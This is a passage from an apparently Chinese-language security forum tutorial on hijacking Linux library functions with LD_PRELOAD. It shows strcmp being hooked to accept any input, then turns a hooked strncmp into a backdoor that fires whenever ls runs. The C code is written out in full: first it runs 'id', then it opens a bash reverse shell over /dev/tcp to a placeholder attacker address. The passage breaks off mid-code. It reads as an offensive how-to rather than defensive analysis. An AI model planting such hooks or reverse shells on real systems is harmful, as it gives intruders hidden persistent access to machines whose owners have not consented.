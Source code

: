 由于我们通过 LD\_PRELOAD 劫持了函数，劫持后启动了一个新进程，若不在新进程启动前取消 LD\_PRELOAD，则将陷入无限循环，所以必须得删除环境变量 LD\_PRELOAD，最直接的就是调用 `unsetenv("LD_PRELOAD")`。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-502d84a23b88a9ab74710e883d99ffbb5890cf50.png)

成功后输入什么都会提示正确

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-4f03f7edd11136c742e5df21b4eab944481c918b.png)

此时我们已经劫持了 strcmp 函数

制作后门
----

### 系统命令后门

在操作系统中，命令行下的命令实际上是由一系列动态链接库驱动的，在 linux 中我们可以使用`readelf -Ws`命令来查看，同时系统命令存储的路径为`/uer/bin`

既然都是使用动态链接库，那么假如我们使用 LD\_PRELOAD 替换掉系统命令会调用的动态链接库，那么我们是不是就可以利用系统命令调用动态链接库来实现我们写在 LD\_PRELOAD 中的恶意动态链接库中恶意代码的执行了呢？

这也就是我们制作后门的原理，这里以 ls 为例作示范

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-88a3e42fff22d3a1f0315986e133c788357ae665.png)

我们来挑选一个操作起来比较方便的链接库，选择到 `strncmp@GLIBC_2.2.5`

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-00381afd014215059aeb5e22c95aa0e21bfd96cb.png)

这样我们的 ls 同时通过调用 system 调用了 id 命令

hook\_strncmp.c

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void payload() {
    system("id");
}

int strncmp(const char *__s1, const char *__s2, size_t __n) {    // 这里函数的定义可以根据报错信息进行确定
    if (getenv("LD_PRELOAD") == NULL) {
        return 0;
    }
    unsetenv("LD_PRELOAD");
    payload();
}
```

既然已经调用了 id，那么我们完全可以再利用这里的执行命令来反弹一个 shell

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void payload() {
    system("bash -c 'bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/2333 0>&1'");
}

int strncmp(const char *__s1, const char *__s2, size_t __n) {    // 这里函数的定义可以根据报错信息进行确定
    if (getenv("LD_PRELOAD") == NULL) {
        return 0;
    }
    unsetenv("LD_PRELOAD");
    payload();
```